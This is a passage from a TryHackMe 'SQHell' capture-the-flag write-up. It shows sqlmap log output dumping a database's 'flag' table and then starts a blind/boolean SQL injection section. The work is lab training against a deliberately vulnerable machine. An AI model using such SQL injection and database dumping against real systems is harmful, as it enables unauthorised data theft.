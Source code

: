 ```text
[22:50:52] [INFO] table 'sqhell_5.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/users.csv'
[22:50:52] [INFO] fetching columns for table 'flag' in database 'sqhell_5'
[22:50:53] [INFO] fetching entries for table 'flag' in database 'sqhell_5'
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:<HIDDEN>}                         |
+----+---------------------------------------------+
[22:50:53] [INFO] table 'sqhell_5.flag' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/flag.csv'
[22:50:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:50:53 /2021-06-10/
```

We have the flag with only two runs of SQLMap, nice and simple!

Let's move on to the next flag.

## Flag 3 - Blind/Boolean - Browser Method

I found [this](https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/) guide, which is a good in depth look at blind or boolean based attacks.

First looking at the Register page to see what we are dealing with:

![sqhell-register](../assets/images/2021-06-14-22-09-41.png)
